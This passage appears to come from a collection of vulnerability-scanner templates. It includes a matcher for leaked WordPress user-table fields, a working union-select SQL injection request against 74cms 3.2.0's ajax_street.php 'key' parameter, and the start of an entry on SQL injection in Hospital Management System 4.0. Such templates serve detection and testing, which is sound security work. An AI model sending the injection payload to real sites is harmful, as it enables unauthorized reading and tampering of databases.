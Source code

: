 **Type - word**

- words
  1. "user_login"
  2. "user_email"
  3. "user_pass"
  4. "user_activation_key"
- condition - and
- part - body

**Type - status**

- status
  1. 200

---

# 74cms - ajax_street.php 'key' SQL Injection

## Description

- SQL Injection in 74cms 3.2.0 via the key parameter to plus/ajax_street.php.

- severity - critical
- tags - cve,cve2020,74cms,sqli

## Requests

- Method - GET

### URL

- {{BaseURL}}/plus/ajax_street.php?act=key&key=%E9%8C%A6%27%20union%20select%201,2,3,4,5,6,7,md5({{num}}),9%23

### Matchers

**Type - word**

- part - body
- words
  1. {{md5({{num}})}}

---

# Hospital Management System 4.0 - SQL Injection

## Description

- Hospital Management System 4.0 contains multiple SQL injection vulnerabilities because multiple pages and parameters do not validate user input. An attacker can possibly obtain sensitive information from a database, modify data, and execute unauthorized administrative operations in the context of the affected site.
